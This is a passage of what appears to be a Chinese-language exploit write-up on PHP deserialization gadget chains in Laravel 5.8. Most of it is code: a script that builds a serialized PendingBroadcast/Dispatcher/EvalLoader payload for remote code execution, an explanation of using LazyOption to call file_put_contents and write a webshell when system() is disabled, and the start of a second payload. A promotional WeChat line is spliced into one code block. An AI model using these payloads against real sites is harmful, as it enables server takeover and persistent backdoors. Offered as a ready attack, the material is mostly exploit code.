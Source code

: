 ```
        }
    }
}
namespace {
    $config = new \Mockery\Generator\MockConfiguration();
    $connection = new \Mockery\Generator\MockDefinition($config);
    $event = new \Illuminate\Broadcasting\BroadcastEvent($connection);
    $queueResolver = array(new \Mockery\Loader\EvalLoader(),"load");
    $events = new \Illuminate\Bus\Dispatcher($queueResolver);
    $pendingBroadcast = new \Illuminate\Broadcasting\PendingBroadcast($events, $event);
    echo urlencode(serialize($pendingBroadcast));
}
```

### 利用跳板

如果说靶机禁用了system等函数，我们希望用file_put_contents写shell等双参数的函数呢，这里有一个好的跳板

```
laravel5.8\vendor\phpoption\phpoption\src\PhpOption\LazyOption.php
```

```
final class LazyOption extends Option
{
    ...
    public function filter($callable)
{
        return $this->option()->filter($callable);
    }
    ...
private function option()
{
        if (null === $this->option) {+WX：machinegunjoe免费领取资料
            /** @var mixed */
            $option = call_user_func_array($this->callback, $this->arguments);
```

这里的$this->callback，$this->arguments是可控的，但是注意到option的属性是private，无法直接从我们刚刚的call_user_func直接去调用它，但是有许多类似filter的函数里面有调用option的

这里可以直接构造payload

```
<?php
namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct($events, $event) {
            $this->events = $events;
            $this->event = $event;
        }
    }
    class BroadcastEvent {
        public $connection;
        public function __construct($connection) {
            $this->connection = $connection;
        }
    }
}
namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver;
        public function __construct($queueResolver){
            $this->queueResolver = $queueResolver;
```